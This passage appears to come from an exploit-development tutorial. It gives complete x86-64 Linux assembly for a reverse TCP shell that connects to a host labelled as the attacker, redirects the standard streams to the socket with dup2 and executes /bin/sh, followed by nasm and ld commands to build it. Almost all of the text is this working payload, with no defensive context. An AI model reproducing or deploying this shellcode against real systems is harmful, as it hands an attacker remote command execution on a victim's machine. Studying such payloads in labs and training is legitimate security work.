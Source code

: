 ```s
    ; Build sockaddr_in for attacker (127.0.0.1:4444)
    ; ------------------------------------------------
    push    0x0100007f      ; sin_addr = 127.0.0.1
    push    word 0x5c11     ; sin_port = 4444
    push    word 2          ; sin_family
    mov     rsi, rsp        ; rsi -> sockaddr_in

    ; ------------------------------------------------
    ; connect(sockfd, &addr, 16)
    ; ------------------------------------------------
    mov     rdi, r12        ; sockfd
    mov     rdx, 0x10       ; addrlen = 16
    mov     rax, 0x2a       ; sys_connect
    syscall

    ; ------------------------------------------------
    ; Redirect STDIN, STDOUT, STDERR to socket
    ; ------------------------------------------------
    mov     rdi, r12        ; sockfd
    xor     rsi, rsi        ; start with STDIN (0)

    mov     rax, 0x21       ; dup2
    syscall                 ; stdin

    mov     rsi, 1          ; stdout
    mov     rax, 0x21
    syscall

    mov     rsi, 2          ; stderr
    mov     rax, 0x21
    syscall

    ; ------------------------------------------------
    ; execve("/bin/sh", NULL, NULL)
    ; ------------------------------------------------
    xor     rax, rax
    push    rax
    mov     rbx, 0x68732f6e69622f  ; "/bin/sh"
    push    rbx
    mov     rdi, rsp        ; "/bin/sh"
    push    rax
    mov     rdx, rsp        ; envp = NULL
    push    rdi
    mov     rsi, rsp        ; argv
    mov     rax, 0x3b       ; execve
    syscall
```

**Assembling and Execution**

```bash
nasm -f elf64 reverse_tcp64.s -o reverse_tcp64.o
ld  reverse_tcp64.o -o reverse_tcp64
```
